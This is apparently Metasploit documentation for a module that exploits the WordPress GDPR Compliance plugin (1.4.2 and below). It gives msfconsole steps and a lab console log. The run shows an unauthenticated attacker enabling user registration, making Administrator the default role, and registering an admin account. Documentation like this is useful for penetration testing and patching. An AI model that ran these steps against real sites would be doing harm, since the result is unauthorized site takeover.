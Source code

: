 ## Description

This module exploits the [Wordpress GDPR compliance plugin](https://wordpress.org/plugins/wp-gdpr-compliance/) lack of validation ([WPVDB 9144](https://wpvulndb.com/vulnerabilities/9144)), which affects versions 1.4.2 and lower.

When a user triggers GDPR-related actions, Wordpress's `admin-ajax.php` is called but fails to do validation and capacity checks regarding the asked actions. This leads to any unauthenticated user being able to modify any arbitrary settings on the targeted server.

This module changes the admin email (optional) to prevent notification sending, enables new user registration, changes the default role of new users to Administrator, and registers a new user that can be used for authentication. The attacker can then log in and take any actions on the newly compromised site.

## Vulnerable Application

[GDPR Compliance plugin <= 1.4.2](https://downloads.wordpress.org/plugin/wp-gdpr-compliance.1.4.2.zip)

## Verification Steps

1. Install the application
2. `./msfconsole`
3. `use auxiliary/admin/http/wp_gdpr_compliance_privesc`
4. `set RHOST [wp host]`
5. `set RPORT [wp port]`
6. `set EMAIL [email address]`
7. `run`

## Scenarios

### Tested on Debian 9.6 running Wordpress 4.7.5 with WordPress GDPR Compliance plugin 1.4.2:

```
msf5 > use auxiliary/admin/http/wp_gdpr_compliance_privesc
msf5 auxiliary(admin/http/wp_gdpr_compliance_privesc) > set verbose true
verbose => true
msf5 auxiliary(admin/http/wp_gdpr_compliance_privesc) > set rhosts 172.22.222.145
rhosts => 172.22.222.145
msf5 auxiliary(admin/http/wp_gdpr_compliance_privesc) > set email test@example.com
email => test@example.com
msf5 auxiliary(admin/http/wp_gdpr_compliance_privesc) > check

[*] Checking /wp-content/plugins/wp-gdpr-compliance/readme.txt
[*] Found version 1.4.2 of the plugin
[*] 172.22.222.145:80 The target appears to be vulnerable.
msf5 auxiliary(admin/http/wp_gdpr_compliance_privesc) > exploit

[*] Getting security token from host...
[!] Enabling user registrations...
[!] Setting the default user role type to administrator...
[*] Registering msfuser with email test@example.com
[*] Auxiliary module execution completed
msf5 auxiliary(admin/http/wp_gdpr_compliance_privesc) >
```
